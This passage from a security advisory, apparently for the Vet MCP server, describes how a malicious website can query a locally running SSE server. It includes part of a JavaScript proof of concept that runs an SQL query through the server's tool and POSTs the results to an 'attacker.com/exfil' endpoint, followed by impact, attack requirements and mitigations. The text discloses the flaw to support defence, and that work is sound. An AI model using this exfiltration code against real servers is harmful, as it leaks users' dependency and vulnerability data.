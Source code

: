 ```javascript
          name: 'vet_query_execute_sql_query',
          arguments: { sql: 'SELECT * FROM report_packages' }
        }
      })
    });
  } else {
    // Exfiltrate data received via SSE
    fetch('https://attacker.com/exfil', {
      method: 'POST',
      body: event.data
    });
  }
};
```

The victim simply needs to visit the attacker's website (e.g., through a link in a phishing email, compromised advertisement, or malicious GitHub issue) while their Vet MCP server is running.

## Impact Assessment

### Confidentiality Breach

**Primary Impact:**
- Complete READ access to the Vet scan SQLite database through the `vet_query_execute_sql_query` tool
- Exposure of package vulnerability information including:
  - Package names and versions in use
  - Known CVEs affecting the victim's dependencies
  - Severity scores and vulnerability details
  - Software supply chain intelligence

**Risk Amplification:**
- Attackers gain intelligence about vulnerable packages in the victim's environment
- Dependencies and package versions reveal technology stack details
- This information can be used to craft targeted exploits

### Attack Requirements

**Factors Limiting Exploitability:**
- **Active User Interaction Required:** Victim must visit a malicious website
- **Timing Window:** The Vet MCP server must be actively running with SSE transport
- **Configuration Requirement:** Victim must have explicitly started the server with `--server-type sse` (not the default stdio transport)
- **Browser-Based:** Attack requires a modern browser with EventSource support

These factors contribute to the Low severity rating (CVSS 2.1/10) despite the potential for data exfiltration.

## Recommended Mitigations

### For Users (Immediate)
